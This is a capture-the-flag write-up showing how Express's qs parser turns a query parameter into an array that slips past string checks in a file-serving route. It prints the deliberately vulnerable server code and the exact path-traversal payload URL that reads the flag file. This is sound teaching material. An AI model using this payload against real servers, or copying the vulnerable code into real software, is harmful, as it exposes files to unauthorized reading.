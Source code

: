# File Library

Author: [roerohan](https://github.com/roerohan)

## Description

Express query parsing vulnerability.

## Requirements

- Express.js
- qs package used by Express.js

## Sources

- [server.js](./server.js)
- Deployed website using server.js

```
This is my file library. I don't have a lot of files, but I hope you like the ones I have!
```

## Exploit

This exploit is owing to the `qs` package used by `express` to parse `req.query`. You can send an array instead of a string through the GET params in the following manner:

```ja
/route?words[]=hello&words[]=world
```

This makes the `req.names` in the backend an array: `['hello', 'world']`.

```javascript
const express = require('express');
const path = require('path');
const fs = require('fs');

const app = express();

const PORT = process.env.PORT || 3000;

app.listen(PORT, () => {
    console.log(`Listening on port ${PORT}`);
});

app.get('/getFile', (req, res) => {
    let { file } = req.query;

    // If file name is undefined
    if (!file) {
        res.send(`file=${file}\nFilename not specified!`);
        return;
    }

    try {
        // If file name has characters like ' ', '/', fail.
        if (file.includes(' ') || file.includes('/')) {
            res.send(`file=${file}\nInvalid filename!`);
            return;
        }
    } catch (err) {
        res.send('An error occured!');
        return;
    }

    // Check if file type is allowed.
    if (!allowedFileType(file)) {
        res.send(`File type not allowed`);
        return;
    }

    // If the file name is too long, shorten it.
    if (file.length > 5) {
        file = file.slice(0, 5);
    }

    // Get the path for the file.
    const returnedFile = path.resolve(__dirname + '/' + file);

    // Read file to check if file exists
    fs.readFile(returnedFile, (err) => {
        if (err) {
            if (err.code != 'ENOENT') console.log(err);
            res.send('An error occured!');
            return;
        }

        res.sendFile(returnedFile);
    });
});

app.get('/*', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

function allowedFileType(file) {
    const format = file.slice(file.indexOf('.') + 1);

    // Allow only `js` and `txt` files.
    if (format == 'js' || format == 'ts' || format == 'c' || format == 'cpp') {
        return true;
    }

    return false;
}
```

The `/getFile` route is meant to get you a file from the server. But there are certain restrictions. First, you can't have ` `s or `/`s in your file. This prevents path traversal to an extent. 
<br />

Then, it checks that the `file` parameter has a length of less than 5 characters. If not, it takes just the first 5 characters. Then, it checks if the file extension is `js`, `ts`, `cpp`, or `c`, if yes, it allows you to read that file. If all these are satisfied, the path is resolved using `path.resolve()`.
<br />

In the `a.cpp` file, it says `system("cat flag.txt")`, indicating that the flag is present in the same directory in the `flag.txt`. We can pass in an array which passes the first 2 checks. Then it has to check if the `.slice(file.indexOf('.') + 1)`, so the last 2 elements have to be `['.', 'js']`. So, we can try passing `['flag.txt', '.', 'js']`, which makes the path `/home/user/flag.txt,.,js`, which is invalid. However, we can make use of the `path.resolve()`, and the fact that only the first 5 elements are used. If the array becomes `['a', 'b', 'c', 'd', '/../flag.txt', '.', 'js']` (`js` because `txt` is not allowed). So, this passed the file check, because `.slice()` returns `['js']` and `['js'] == 'js'` is true (not used `===`). Now, to get rid of this, we add 4 random elements before the element having `flag.txt`.
<br />

Now, the string upon concatenation will give `${pwd}/a,b,c,d,/../flag.txt` (now you see why we added `/../`), so that it resolves to `${pwd}/flag.txt` because of `flag.txt`. The payload, therefore, is:

```
/getFile?file[]=a&file[]=b&file[]=c&file[]=d&file[]=/../flag.txt&file[]=.&file[]=js
```

The flag is:

```
sarbctf{5h0uld_5tr1ng1fy_th3_p4r4ms}
```
